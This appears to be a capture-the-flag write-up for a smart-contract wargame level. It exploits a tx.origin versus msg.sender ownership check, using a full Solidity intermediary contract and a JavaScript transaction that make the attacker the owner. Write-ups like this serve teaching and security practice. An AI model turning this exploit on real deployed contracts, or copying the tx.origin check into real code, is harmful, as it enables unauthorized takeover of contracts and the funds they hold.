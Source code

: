 
In the changeOwner() function the target is checking whether `tx.origin != msg.sender`. We can make this true if we deploy our own smart contract (which will be `msg.sender`), and then we call our smart contract from our MetaMask wallet with JavaScript, which becomes `tx.origin`. We will pass the address of our own wallet so we become the owner.

We write out own smart contract:
```solidity
pragma solidity ^0.4.18;

interface Telephone {
    function changeOwner(address _owner) external;
}

contract Exploit {
    constructor() public payable {}
    
    // Fallback
    function() public payable {
        address player = 0x8E0Ff062059376013FA56470805bec01b5aD06cc;
        address target_contract = 0x30d8FDc2cB50Db734e3eCC9c7A10f3BAa926aF95;
        Telephone(target_contract).changeOwner(player);
    }
}
```

And then use the JavaScript console in the browser to send a transcation to our deployed contract. This will trigger the fallback function which will then call the required function on the target, passing our own wallet address as the argument which will be made the owner.

```javascript
await sendTransaction({
  from: player,
  to: "0xB29CDdf2b7521Bf830884e8DA6D9D8c32c470fE8"
})
```
